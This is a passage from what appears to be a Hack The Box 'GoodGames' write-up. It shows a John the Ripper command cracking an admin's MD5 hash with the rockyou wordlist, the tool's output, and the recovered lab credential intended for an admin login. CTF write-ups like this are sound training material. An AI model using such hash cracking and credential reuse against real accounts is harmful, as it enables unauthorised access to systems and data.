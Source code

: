 ```bash
```
So we managed to crack the known password, let's try the same with the admin's password but using the dictionary `rockyou`:
```bash
❯ john --wordlist=/usr/share/dict/rockyou.txt Results/admin_hash --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
superadministrator (?)
1g 0:00:00:00 DONE (2022-06-04 18:52) 5.263g/s 18295Kp/s 18295Kc/s 18295KC/s superarchirequetecontrapadrisimo..super_girlbhd
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```
Success, after this process we obtained the credential `admin@goodgames.htb:superadministrator`. We can now try these credentials on the `internal-administration` subdomain login:
![](img/2022-06-04-18-54-47.png)